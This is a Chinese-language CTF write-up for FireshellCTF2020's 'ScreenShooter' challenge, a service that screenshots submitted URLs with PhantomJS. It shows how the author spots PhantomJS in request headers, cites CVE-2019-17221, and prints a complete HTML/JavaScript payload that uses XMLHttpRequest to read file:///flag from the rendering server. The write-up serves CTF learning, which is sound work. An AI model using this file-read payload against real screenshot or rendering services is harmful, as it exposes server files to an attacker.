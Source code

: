 ```yaml
---
title: '[FireshellCTF2020]ScreenShooter'
date: 2025-02-01 20:20:31
tags: 
      - PhantomJS漏洞
      - 漏洞
categories: 刷题笔记
---
```


## [FireshellCTF2020]ScreenShooter

![image-20250202205207922](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502022052956.png)

如图所示，这是一个url提交框，当我们提交url时，会对网页进行截图

所以我们需要检测该网页发送的流量

我们使用https://beeceptor.com/来检测流量

我们先生成一个域名进行提交

![image-20250202205509963](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502022055172.png)

然后我们在网页查看请求头，注意使用http头，不然很难看到请求头

![image-20250202210334037](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502022103081.png)

我们注意到PhantomJS

![image-20250202210401153](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502022104281.png)

在[NVD - CVE-2019-17221 (nist.gov)](https://nvd.nist.gov/vuln/detail/CVE-2019-17221)存在漏洞

![image-20250202210450538](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502022104657.png)

我们注意其中的`攻击者可借助特制的HTML文件利用该漏洞读取文件系统上任意文件`

可以使用`file:// URI 的 XMLHttpRequest`读取文件（好像过滤了，我们使用http来读取）

编写一个index.html放在自己的vps的/var/www/html/文件夹里

```
<!DOCTYPE html>
<html>
<head>
	<title></title>
</head>
<body>
	<script type="text/javascript">
		var karsa;
		karsa = new XMLHttpRequest;
		karsa.onload = function(){
			document.write(this.responseText)
		};
		karsa.open("GET","file:///flag");
		karsa.send();
	</script>
</body>
</html>
```

得到flag

![image-20250202211330699](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502022113810.png)
